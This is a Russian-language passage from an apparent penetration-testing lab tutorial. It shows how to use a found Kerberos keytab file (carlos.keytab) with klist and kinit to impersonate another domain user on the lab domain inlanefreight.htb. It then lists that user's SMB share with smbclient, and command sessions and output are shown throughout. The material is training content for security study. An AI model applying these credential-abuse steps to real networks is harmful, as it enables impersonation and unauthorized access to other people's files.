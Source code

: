 #### Список информации о файле keytab

Список информации о файле keytab

```shell-session
david@inlanefreight.htb@linux01:~$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

Билет соответствует пользователю Carlos. Теперь мы можем олицетворять пользователя с помощью `kinit`. Давайте подтвердим, какой билет мы используем с `klist`а затем импортировать билет Карлоса в нашу сессию с помощью `kinit`.

**Примечание:** **kinit** чувствителен к регистру, поэтому обязательно используйте имя принципала, как показано в klist. В этом случае имя пользователя пишется строчными буквами, а доменное имя — прописными.

#### Выдача себя за пользователя с помощью keytab

Выдача себя за пользователя с помощью keytab

```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```

Мы можем попытаться получить доступ к общей папке `\\dc01\carlos`для подтверждения нашего доступа.

#### Подключение к SMB Share от имени Carlos

Подключение к SMB Share от имени Carlos

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```
